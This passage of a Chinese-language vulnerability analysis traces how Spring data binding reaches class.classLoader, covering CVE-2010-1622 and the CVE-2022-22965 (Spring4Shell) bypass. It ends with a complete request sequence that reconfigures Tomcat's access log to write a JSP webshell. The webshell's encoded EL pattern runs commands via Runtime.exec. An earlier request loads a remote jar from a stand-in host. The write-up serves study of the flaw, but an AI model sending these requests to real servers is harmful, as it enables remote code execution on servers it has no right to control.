没错，直接请求 [http://localohst:8080/index?name=panda](http://localohst:8080/index?name=panda)

[](https://storage.tttang.com/media/attachment/2022/04/04/c91693eb-49f0-4a4c-99e8-f7916f4fa4f7.png)

当完成请求后，indexController 就会自动把 name=panda 变成对象 person.name 的值。  
这一切都是自动调用 bean 属性注入完成的，具体对应的过程实际上就是 SpringBean 的属性填充的过程。

可以跟一下看看，然后当我们启动项目的时候，在 populateBean 中下断点就可以看到 indexController 作为 bean 被初始化装载进了 spring 容器中

[](https://storage.tttang.com/media/attachment/2022/04/04/c2fb0372-9447-4463-98b5-8a7f20601c36.png)

完成初始化装载后，当向这个 bean 设置值的时候，会进入前文中提到的 setPropertyValues 方法，并最终在 BeanPropertyHandler 方法中，通过`setValue()`调用对象的 setter 方法进行属性设置：

[](https://storage.tttang.com/media/attachment/2022/04/04/3cc2e6f0-c529-4f7a-8ac2-a2045333d340.png)

[](https://storage.tttang.com/media/attachment/2022/04/04/05d97b2e-aa90-450d-820c-6b65abeeb448.png)

按理说 Person 类中只有 name 这一个属性，但实际并非如此。

还记得我们前文中提到的：

> Java Object 类是所有类的父类，也就是说 Java 的所有类都继承了 Object，子类可以使用 Object 的所有方法，这里的 class 属性就是从 Object 继承的`getClass()`方法带来的。

没错，除了 name 属性外，还有一个名为 class 的属性，我们可以获取如下：

[](https://storage.tttang.com/media/attachment/2022/04/04/ae66d7eb-5f37-46dc-9e5f-7a754e1c6e49.png)

既然有了一个名为 class 的属性，并且其有一个 getClass() 的方法，那么可以做什么呢？

是的，这便意味着所有的对象都可以通过使用：

```plain
http://localohst:8080/index?class=xxxx
```

的方式来获取 class 对象

需要注意的是，class 的类型并非基础类型，当我们提交了一个基础类型数据的时候，在 SpringBean 的属性填充过程中的类型转换判断中，就进行了筛除，因此赋值的对象要符合其类型定义才可以，但问题来了，我们提交的值实际上就是一个字符串，没法直接定义一个对象传进去。

应该怎么办？

我们知道，Object 的 getClass 方法，返回的是一个 class 对象：

```plain
  public final native Class<?> getClass();
```

并且所有的类都有 class 属性，都是 class 的对象。

还记得前面说过的：

> 获取到一个类对象后，就可以调用这个类中的一些方法，当获取到 Class 对象后，变相的获取了所有 Class 类的对象，通过调用这个 Class 类下实例对象的方法，就相当于调用了实例对象的方法。

那么在这些对象中存在可用的 setXxxxx 的方法，就可以通过调用 class 对象的方式，去调用 setXxxxx 的方法。

现在就来找一下 class 中有没有这种属性：

```plain
 @Test
    public void test() throws IntrospectionException {
        BeanInfo info = Introspector.getBeanInfo(Class.class);
        for (PropertyDescriptor pd : info.getPropertyDescriptors()) {
            System.out.println(pd.getName());
            System.out.println("    [*]" + pd.getReadMethod());
            System.out.println("    [*]" + pd.getWriteMethod());
        }
    }
```

可以看到很多：

```plain
annotatedInterfaces
    [*]public java.lang.reflect.AnnotatedType[] java.lang.Class.getAnnotatedInterfaces()
    [*]null
annotatedSuperclass
    [*]public java.lang.reflect.AnnotatedType java.lang.Class.getAnnotatedSuperclass()
    [*]null
annotation
    [*]public boolean java.lang.Class.isAnnotation()
    [*]null
annotations
    [*]public java.lang.annotation.Annotation[] java.lang.Class.getAnnotations()
    [*]null
anonymousClass
    [*]public boolean java.lang.Class.isAnonymousClass()
    [*]null
array
    [*]public native boolean java.lang.Class.isArray()
    [*]null
canonicalName
    [*]public java.lang.String java.lang.Class.getCanonicalName()
    [*]null
class
    [*]public final native java.lang.Class java.lang.Object.getClass()
    [*]null
classLoader
    [*]public java.lang.ClassLoader java.lang.Class.getClassLoader()
    [*]null
classes
    [*]public java.lang.Class[] java.lang.Class.getClasses()
    [*]null
componentType
    [*]public native java.lang.Class java.lang.Class.getComponentType()
    [*]null
constructors
    [*]public java.lang.reflect.Constructor[] java.lang.Class.getConstructors() throws java.lang.SecurityException
    [*]null
declaredAnnotations
    [*]public java.lang.annotation.Annotation[] java.lang.Class.getDeclaredAnnotations()
    [*]null
declaredClasses
    [*]public java.lang.Class[] java.lang.Class.getDeclaredClasses() throws java.lang.SecurityException
    [*]null
declaredConstructors
    [*]public java.lang.reflect.Constructor[] java.lang.Class.getDeclaredConstructors() throws java.lang.SecurityException
    [*]null
declaredFields
    [*]public java.lang.reflect.Field[] java.lang.Class.getDeclaredFields() throws java.lang.SecurityException
    [*]null
declaredMethods
    [*]public java.lang.reflect.Method[] java.lang.Class.getDeclaredMethods() throws java.lang.SecurityException
    [*]null
declaringClass
    [*]public java.lang.Class java.lang.Class.getDeclaringClass() throws java.lang.SecurityException
    [*]null
enclosingClass
    [*]public java.lang.Class java.lang.Class.getEnclosingClass() throws java.lang.SecurityException
    [*]null
enclosingConstructor
    [*]public java.lang.reflect.Constructor java.lang.Class.getEnclosingConstructor() throws java.lang.SecurityException
    [*]null
enclosingMethod
    [*]public java.lang.reflect.Method java.lang.Class.getEnclosingMethod() throws java.lang.SecurityException
    [*]null
enum
    [*]public boolean java.lang.Class.isEnum()
    [*]null
enumConstants
    [*]public java.lang.Object[] java.lang.Class.getEnumConstants()
    [*]null
fields
    [*]public java.lang.reflect.Field[] java.lang.Class.getFields() throws java.lang.SecurityException
    [*]null
genericInterfaces
    [*]public java.lang.reflect.Type[] java.lang.Class.getGenericInterfaces()
    [*]null
genericSuperclass
    [*]public java.lang.reflect.Type java.lang.Class.getGenericSuperclass()
    [*]null
interface
    [*]public native boolean java.lang.Class.isInterface()
    [*]null
interfaces
    [*]public java.lang.Class[] java.lang.Class.getInterfaces()
    [*]null
localClass
    [*]public boolean java.lang.Class.isLocalClass()
    [*]null
memberClass
    [*]public boolean java.lang.Class.isMemberClass()
    [*]null
methods
    [*]public java.lang.reflect.Method[] java.lang.Class.getMethods() throws java.lang.SecurityException
    [*]null
modifiers
    [*]public native int java.lang.Class.getModifiers()
    [*]null
name
    [*]public java.lang.String java.lang.Class.getName()
    [*]null
package
    [*]public java.lang.Package java.lang.Class.getPackage()
    [*]null
primitive
    [*]public native boolean java.lang.Class.isPrimitive()
    [*]null
protectionDomain
    [*]public java.security.ProtectionDomain java.lang.Class.getProtectionDomain()
    [*]null
signers
    [*]public native java.lang.Object[] java.lang.Class.getSigners()
    [*]null
simpleName
    [*]public java.lang.String java.lang.Class.getSimpleName()
    [*]null
superclass
    [*]public native java.lang.Class java.lang.Class.getSuperclass()
    [*]null
synthetic
    [*]public boolean java.lang.Class.isSynthetic()
    [*]null
typeName
    [*]public java.lang.String java.lang.Class.getTypeName()
    [*]null
typeParameters
    [*]public java.lang.reflect.TypeVariable[] java.lang.Class.getTypeParameters()
    [*]null
```

很多并不意味着都可以用，可以发现这些方法里并没有 setXxxx 方法。那怎么办？

答案是内省。

实际上在我们传值的时候，会进入 CachedIntrospectionResults 方法：

[](https://storage.tttang.com/media/attachment/2022/04/04/a07ded5c-9e59-4ad4-a9c2-445c8bb86364.png)

在该方法中就可以看到 JDK 内省类库 Introspector 类中的经典调用方法：`Introspector.getBeanInfo`，然后就获取到了没有 set 的属性，在获取了对应的属性后，通过了一系列的调用，进入了`newValue()`方法

[](https://storage.tttang.com/media/attachment/2022/04/04/1d45ad3e-d7fa-4c11-a7e5-fca6081eabb2.png)

在该方法中通过 Array.set 进行了赋值。

因此，即使没有 setXxxx 的方法，我们也可以通过 Java 的内省进行赋值。

现在返回头继续看看那个列表，实际上目前看来，可以被有效利用的只有：

```plain
classLoader
    [*]public java.lang.ClassLoader java.lang.Class.getClassLoader()
    [*]null
```

classLoader 是一个可以影响所有 class 加载的重要东西，可以帮助我们改变 class 加载的一些对象的值，并且不同程序运行环境的 classLoader 是不一样的，因为 Web 容器的不同，实现的方式就不一样。

现在我们知道 classLoader 可以拿来被利用，那么怎么去利用呢？

前面的 class=xxxx 的方式是直接赋值的方式，如何通过 class 调用 classLoader，再通过 classLoader 去调用其他属性呢？

这里要说明的一点是，SpringBean 解析流程和直接 requestparam 解析流程是不同的，对于后者不是本文的重点，故不在作更多的解释，有兴趣的可以去搜索 SpringMVC 参数绑定的相关资料。

对于前者，Spring 在 PropertyAccessor 接口中定义了分割符：

```plain
public interface PropertyAccessor {

    /**
     * Path separator for nested properties.
     * Follows normal Java conventions: getFoo().getBar() would be "foo.bar".
     */
    String NESTED_PROPERTY_SEPARATOR = ".";

    /**
     * Path separator for nested properties.
     * Follows normal Java conventions: getFoo().getBar() would be "foo.bar".
     */
    char NESTED_PROPERTY_SEPARATOR_CHAR = '.';

    /**
     * Marker that indicates the start of a property key for an
     * indexed or mapped property like "person.addresses[0]".
     */
    String PROPERTY_KEY_PREFIX = "[";

    /**
     * Marker that indicates the start of a property key for an
     * indexed or mapped property like "person.addresses[0]".
     */
    char PROPERTY_KEY_PREFIX_CHAR = '[';

    /**
     * Marker that indicates the end of a property key for an
     * indexed or mapped property like "person.addresses[0]".
     */
    String PROPERTY_KEY_SUFFIX = "]";

    /**
     * Marker that indicates the end of a property key for an
     * indexed or mapped property like "person.addresses[0]".
     */
    char PROPERTY_KEY_SUFFIX_CHAR = ']';
```

可以看到，在这个接口里定义了嵌套属性的路径分隔符`.`，并且遵循正常的 Java 约定，加入 Java 方法里的调用方式为：getFoo().getBar() ，那么在这里就是 foo.bar

此外，在该接口里还定义了一个名为 PROPERTY\_KEY\_PREFIX 的变量，用于指示属性的开始，这里的属性指的是索引或映射的属性，例如：person.addresses\[0\]

也就是说，在 SpringBean 解析流程里是用`.`作分割符号并对传入的属性进行分割识别的，识别的逻辑如下：

```plain
protected AbstractNestablePropertyAccessor getPropertyAccessorForPropertyPath(String propertyPath) {
        // 获取嵌套属性的第一个属性
        // 比如对于属性：foo.bar[0].name
        // 首先获取到 foo 的索引位置
        // getFirstNestedPropertySeparatorIndex 是详细的方法
        int pos = PropertyAccessorUtils.getFirstNestedPropertySeparatorIndex(propertyPath);
        // Handle nested properties recursively.
        //递归处理嵌套属性
        if (pos > -1) {
            // 获取所在的属性，和 要 获取的属性对应的 name
            String nestedProperty = propertyPath.substring(0, pos);
            String nestedPath = propertyPath.substring(pos + 1);
            AbstractNestablePropertyAccessor nestedPa = getNestedPropertyAccessor(nestedProperty);
            //递归调用
            return nestedPa.getPropertyAccessorForPropertyPath(nestedPath);
        }
        else {
            return this;
        }
    }
```

来看看 getFirstNestedPropertySeparatorIndex 方法：

```plain
private static int getNestedPropertySeparatorIndex(String propertyPath, boolean last) {
        boolean inKey = false;
    // 获取对应的属性的长度
        int length = propertyPath.length();
        int i = (last ? length - 1 : 0);
        while (last ? i >= 0 : i < length) {
      // 对所有的字符遍历进行解析，这里增加一个 inKey 的 flag，要
          // 对[ 和 ] 符号做成对的判断
            switch (propertyPath.charAt(i)) {
                case PropertyAccessor.PROPERTY_KEY_PREFIX_CHAR:
                case PropertyAccessor.PROPERTY_KEY_SUFFIX_CHAR:
                    inKey = !inKey;
                    break;
                case PropertyAccessor.NESTED_PROPERTY_SEPARATOR_CHAR:
          // 如果出现'.' ,说明存在嵌套属性，并且 inKey =false ,说明在这之前[ ] 是成对匹配的
                // 返回对应的 index 位置
                    if (!inKey) {
                        return i;
                    }
            }
            if (last) {
                i--;
            }
            else {
                i++;
            }
        }
        return -1;
    }
```

在该方法中首先会获取属性的长度，然后对所有的字符遍历解析，并且对指示属性键的开始符号`[`进行成对判断，如果在路径中出现了`.`，那么认为存在嵌套属性，然后返回 getPropertyAccessorForPropertyPath 到方法，去递归处理嵌套属性。

到这里相信大家就明白是怎么一回事了，所以如果我们想通过 class 去调用 classLoader 的属性，只需要通过 class.classLoader 的方式即可。

并且前面我们也提到了可以通过 Java 的内省来赋值，所以我们只需要找到 classLoader 中一个可以利用的属性，就可以达到我们想要的目的——RCE。

对于 CVE-2010-1622，利用的方式是

`http://localhost:8080/index?class.classLoader.URLs[0]=jar:http://xxxx.com/exp.jar!/`

setPropertyValue 将`jar:http://xxxx.com/exp.jar!/`参数传到 URLs\[\]中，然后经过 jsp 页面渲染时，通过一些列类的调用，最终对 exp.jar 进行了加载，触发了 RCE。

CVE-2010-1622 漏洞过后，Spring 官方和 Tomcat 的官方都对漏洞进行了修复。

Tomcat 的做法是，在 6.0.28 版本后把 getURLs 方法返回的值改成了 clone 的，这使的我们获得的 clone 的值无法修改 classloader 中的 URLs\[\]

Spring 官方的做法则是在 CachedIntrospectionResults 中获取 beanInfo 后对其进行了判断，将 classloader 添加进了黑名单：

[](https://storage.tttang.com/media/attachment/2022/04/04/2eaea9c2-6137-4d04-9d14-b4fe8563b714.png)

CVE-2022-22965 这漏洞对这个判断进行了绕过，自从 JDK 9+ 开始，JDK 引入了模块（Module）的概念，就可以通过 module 来调用 JDK 模块下的方法，而 module 并不在黑名单中，所以能够绕过黑名单。

如：class.module.classLoader.xxxx

但是 Tomcat 已经把 URL\[\]的方式给干掉了，应该如何利用呢？

目前主流的应用方式是通过 Tomcat Access Log 来写 shell。

在 conf 目录下的 server.xml 文件里可以通过 AccessLogValve 对 Access Log 进行配置，如：

```plain
<Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs" prefix="access." suffix=".log" 
        pattern="%h %l %u %t "%r" %s %b "%{Referer}i" "%{User-Agent}i" %{X-Forwarded-For}i "%Dms"" resolveHosts="false"/>
```

然后便会在指定目录下生成`access.log`的文件

前文提到了，在 Spring 中的万物都是 SpringBean，那么通过 xml 文件加载的配置属性，实际上也是可以被配置修改的，但是具体的是哪个属性觉得的，需要去寻找遍历出来：

```plain
    @RequestMapping("/testclass")
    public void classTest(){
        HashSet<Object> set = new HashSet<Object>();
        String poc = "class.moduls.classLoader";
        User action = new User();
        processClass(action.getClass().getClassLoader(),set,poc);
    }

        public void processClass(Object instance, java.util.HashSet set, String poc){
        try {
            Class<?> c = instance.getClass();
            set.add(instance);
            Method[] allMethods = c.getMethods();
            for (Method m : allMethods) {
                if (!m.getName().startsWith("set")) {
                    continue;
                }
                if (!m.toGenericString().startsWith("public")) {
                    continue;
                }
                Class<?>[] pType  = m.getParameterTypes();
                if(pType.length!=1) continue;

                if(pType[0].getName().equals("java.lang.String")||
                        pType[0].getName().equals("boolean")||
                        pType[0].getName().equals("int")){
                    String fieldName = m.getName().substring(3,4).toLowerCase()+m.getName().substring(4);
                    System.out.println(poc+"."+fieldName);
//                    System.out.println(m.getName());
                }
            }
            for (Method m : allMethods) {
                if (!m.getName().startsWith("get")) {
                    continue;
                }
                if (!m.toGenericString().startsWith("public")) {
                    continue;
                }
                Class<?>[] pType  = m.getParameterTypes();
                if(pType.length!=0) continue;
                if(m.getReturnType() == Void.TYPE) continue;
                m.setAccessible(true);
                Object o = m.invoke(instance);
                if(o!=null)
                {
                    if(set.contains(o)) continue;

                    processClass(o, set, poc+"."+m.getName().substring(3,4).toLowerCase()+m.getName().substring(4));
                }
            }
        } catch (IllegalAccessException | InvocationTargetException x) {
            x.printStackTrace();
        }
    }
```

可以发现以下属性：

```plain
class.classLoader.resources.context.parent.pipeline.first.directory =
class.classLoader.resources.context.parent.pipeline.first.prefix =
class.classLoader.resources.context.parent.pipeline.first.suffix = 
class.classLoader.resources.context.parent.pipeline.first.fileDateFormat =
```

组合使用即可在指定文件位置，创建一个指定后缀名的文件

具体怎么发现的就不提了，因为 Struts2 S2-020 漏洞中就有这样的利用方式，可以参考：[https://cloud.tencent.com/developer/article/1035297](https://cloud.tencent.com/developer/article/1035297)

不过与上文不同的是，我觉得 EL 表达式的方法更好用，依次提交以下请求：

```plain
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%24%7b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%69%6e%70%75%74%53%74%72%65%61%6d%22%2c%20%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%70%61%72%61%6d%2e%63%6d%64%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%3b%54%68%72%65%61%64%2e%73%6c%65%65%70%28%31%30%30%30%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%69%6e%70%75%74%53%74%72%65%61%6d%41%76%61%69%6c%61%62%6c%65%22%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%69%6e%70%75%74%53%74%72%65%61%6d%22%29%2e%61%76%61%69%6c%61%62%6c%65%28%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%62%79%74%65%42%75%66%66%65%72%43%6c%61%73%73%22%2c%20%43%6c%61%73%73%2e%66%6f%72%4e%61%6d%65%28%22%6a%61%76%61%2e%6e%69%6f%2e%42%79%74%65%42%75%66%66%65%72%22%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%61%6c%6c%6f%63%61%74%65%4d%65%74%68%6f%64%22%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%62%79%74%65%42%75%66%66%65%72%43%6c%61%73%73%22%29%2e%67%65%74%4d%65%74%68%6f%64%28%22%61%6c%6c%6f%63%61%74%65%22%2c%20%49%6e%74%65%67%65%72%2e%54%59%50%45%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%68%65%61%70%42%79%74%65%42%75%66%66%65%72%22%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%61%6c%6c%6f%63%61%74%65%4d%65%74%68%6f%64%22%29%2e%69%6e%76%6f%6b%65%28%6e%75%6c%6c%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%69%6e%70%75%74%53%74%72%65%61%6d%41%76%61%69%6c%61%62%6c%65%22%29%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%69%6e%70%75%74%53%74%72%65%61%6d%22%29%2e%72%65%61%64%28%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%68%65%61%70%42%79%74%65%42%75%66%66%65%72%22%29%2e%61%72%72%61%79%28%29%2c%20%30%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%69%6e%70%75%74%53%74%72%65%61%6d%41%76%61%69%6c%61%62%6c%65%22%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%62%79%74%65%41%72%72%54%79%70%65%22%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%68%65%61%70%42%79%74%65%42%75%66%66%65%72%22%29%2e%61%72%72%61%79%28%29%2e%67%65%74%43%6c%61%73%73%28%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%73%74%72%69%6e%67%43%6c%61%73%73%22%2c%20%43%6c%61%73%73%2e%66%6f%72%4e%61%6d%65%28%22%6a%61%76%61%2e%6c%61%6e%67%2e%53%74%72%69%6e%67%22%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%73%74%72%69%6e%67%43%6f%6e%73%74%72%75%63%74%6f%72%22%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%73%74%72%69%6e%67%43%6c%61%73%73%22%29%2e%67%65%74%43%6f%6e%73%74%72%75%63%74%6f%72%28%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%62%79%74%65%41%72%72%54%79%70%65%22%29%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%73%74%72%69%6e%67%52%65%73%22%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%73%74%72%69%6e%67%43%6f%6e%73%74%72%75%63%74%6f%72%22%29%2e%6e%65%77%49%6e%73%74%61%6e%63%65%28%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%68%65%61%70%42%79%74%65%42%75%66%66%65%72%22%29%2e%61%72%72%61%79%28%29%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%73%74%72%69%6e%67%52%65%73%22%29%7d
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=1
```

然后任意 URL 发起请求  
会在就根目录生成 webapps/ROOT/shell1.jsp

